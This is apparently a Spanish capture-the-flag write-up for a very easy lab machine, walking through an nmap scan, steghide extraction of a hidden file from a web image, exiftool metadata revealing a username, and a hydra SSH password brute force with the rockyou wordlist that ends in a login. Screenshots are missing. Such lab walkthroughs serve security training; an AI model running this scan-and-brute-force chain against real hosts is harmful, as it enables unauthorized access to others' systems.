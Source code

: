 
**Autor:** [BorazuwarahCTF](https://github.com/borazuwarah/)

**Dificultad:** Muy Fácil

**Fecha de creación:** 28/05/2024


DESPLIEGUE

```
bash auto_deploy.sh borazuwarahctf.tar
```


![[Pasted image 20241106191136.png]]






------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```



---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos  
`--open` ⮞ solo a los que estén abiertos  
`--min-rate 5000` ⮞ para enviar paquetes más rápido  
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida  
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla  
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)  
`-Pn` ⮞ ignora si esta activa o no la IP  
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

![[Pasted image 20240917192325.png]]

Nos vamos a la página web y nos sale :
![[Pasted image 20240917193213.png]]

Nos descargamos la imagen y veremos si tiene algún archivo oculto. Haremos el siguiente comando:

```
steghide extract -sf imagen.jpeg
```

![[Pasted image 20240917193813.png]]

```
cat secreto.txt
```


![[Pasted image 20240917193842.png]]


Lo cual nos da una pista. Buscaremos  más información dentro de esta imagen como son los metadatos , usaremos `exiftool`, por lo cual usando el comando 

```
exiftool imagen.jpeg
```

![[Pasted image 20240917194039.png]]

Y ahí tenemos un usuario `borazuwarah`

Ahora fuerza bruta. 

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20240917194231.png]]

```
ssh borazuwarah@172.17.0.2
```

![[Pasted image 20240917194342.png]]

Y ya estamos adentro. 
